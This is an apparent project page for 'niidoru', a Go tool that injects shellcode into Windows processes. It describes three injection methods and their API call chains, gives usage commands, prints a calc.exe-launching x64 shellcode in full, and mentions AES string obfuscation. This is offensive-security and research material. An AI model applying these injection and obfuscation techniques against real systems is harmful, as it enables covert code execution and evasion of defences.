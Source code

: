 ```yaml
---
layout: post
title: niidoru
excerpt_separator: <!--more-->
---
```


Framework for Process Injection in Windows using Go.

<!--more-->


Repository: [https://github.com/ricardojoserf/niidoru](https://github.com/ricardojoserf/niidoru)

<br>

```
go run . -m <METHOD> [ -p <PID> | -n <PROCESS_NAME> ] [ -h HEXADECIMAL_PAYLOAD ]
```

- -m (Mandatory): Process injection method. Options:


    - *-m 1*: **Method 1** or **CreateRemoteThread** method (OpenProcess + VirtualAllocEx + WriteProcessMemory + CreateRemoteThread + CloseHandle)

    - *-m 2*: **Method 2** or **QueueUserAPC** method (OpenProcess + VirtualAllocEx + WriteProcessMemory + OpenThread + QueueUserAPC + CloseHandle)

    - *-m 3*: **Method 3** or **EarlyBird** method (CreateProcess + VirtualAllocEx + WriteProcessMemory + VirtualProtectEx + QueueUserAPC + ResumeThread + CloseHandle)

- -p (Optional):  Process ID or PID. Example: 1234

- -n (Optional):  Process name. Example: notepad.exe

- -h (Optional):  Hexadecimal payload. It can be in the format "\x50\x51\x52" or "505152". Default: Payload to pop calc.exe 


<br>

------------------------------

## Examples

Process injection using CreateRemoteThread method, targeting a notepad.exe process and a payload in hexadecimal format with "\x":  

```
go run . -m 1 -n notepad.exe -h \x50\x51\x52\x53\x56\x57\x55\x6A\x60\x5A\x68\x63\x61\x6C\x63\x54\x59\x48\x83\xEC\x28\x65\x48\x8B\x32\x48\x8B\x76\x18\x48\x8B\x76\x10\x48\xAD\x48\x8B\x30\x48\x8B\x7E\x30\x03\x57\x3C\x8B\x5C\x17\x28\x8B\x74\x1F\x20\x48\x01\xFE\x8B\x54\x1F\x24\x0F\xB7\x2C\x17\x8D\x52\x02\xAD\x81\x3C\x07\x57\x69\x6E\x45\x75\xEF\x8B\x74\x1F\x1C\x48\x01\xFE\x8B\x34\xAE\x48\x01\xF7\x99\xFF\xD7\x48\x83\xC4\x30\x5D\x5F\x5E\x5B\x5A\x59\x58\xC3
```

Process injection using QueueUserAPC method, targeting a process with PID 4272 and a payload in hexadecimal format without "\x":

```
go run . -m 2 -p 4272 -h 505152535657556A605A6863616C6354594883EC2865488B32488B7618488B761048AD488B30488B7E3003573C8B5C17288B741F204801FE8B541F240FB72C178D5202AD813C0757696E4575EF8B741F1C4801FE8B34AE4801F799FFD74883C4305D5F5E5B5A5958C3
```

Process injection using EarlyBird method, spawning a new Notepad process and the default payload:

```
go run . -m 3 -n c:\windows\system32\notepad.exe 
```

Screenshot of the three examples:

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/niidoru/Screenshot_1.png)


------------------------------

## Using the binary

Compile it with:

```
go build
```

Then you can use the same commands as earlier replacing "go run ." with "niidoru.exe":

``` 
niidoru.exe -m <METHOD> [ -p <PID> | -n <PROCESS_NAME> ] [ -h HEXADECIMAL_PAYLOAD ]
```

<br>

------------------------------

## AES encryption

AES is used to obfuscate all the strings in the binary. To change the encrypted values and keys you can use [this gist](https://gist.github.com/ricardojoserf/986b8be42b356da530469bbd32fa88fa) (which is a small variation from [this gist](https://gist.githubusercontent.com/aziza-kasenova/3aea2160cbaebc5a4ba1b9219cba612e/raw/32b3801369ce669b2b1bf89ca84d24f23b487579/AES256.go) but fixing a small problem with the padding). 

If you are not interested in this and just want to see the encryption methods with more representative names, you can check the [no-encryption branch](https://github.com/ricardojoserf/niidoru/tree/no_encryption).
